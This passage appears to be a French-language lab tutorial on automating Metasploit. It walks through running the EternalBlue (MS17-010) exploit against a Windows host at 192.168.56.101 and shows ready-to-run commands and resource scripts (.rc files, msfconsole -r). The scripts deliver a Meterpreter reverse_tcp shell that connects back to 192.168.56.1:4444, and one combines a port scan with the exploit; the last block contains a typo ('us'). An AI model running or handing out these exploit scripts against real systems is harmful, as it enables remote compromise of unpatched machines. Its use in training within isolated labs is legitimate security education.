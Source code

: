 ### Étapes manuelles :

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit
```

### Écrire ces commandes dans un fichier :

```bash
nano exploit_eb.rc
```

Collez ceci :

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit -z
```

* `-z` = ne pas interagir avec la session créée (utile pour scripts).

### Exécuter le script :

```bash
msfconsole -r exploit_eb.rc
```

> ✅ Résultat attendu : exploitation complète sans interaction manuelle.

---

## 3. Exemple : automatiser scan + exploitation

Créer un fichier `scan_and_exploit.rc` :

```bash
nano scan_and_exploit.rc
```

Contenu :

```
us auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.56.101
set PORTS 445
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit -z
```
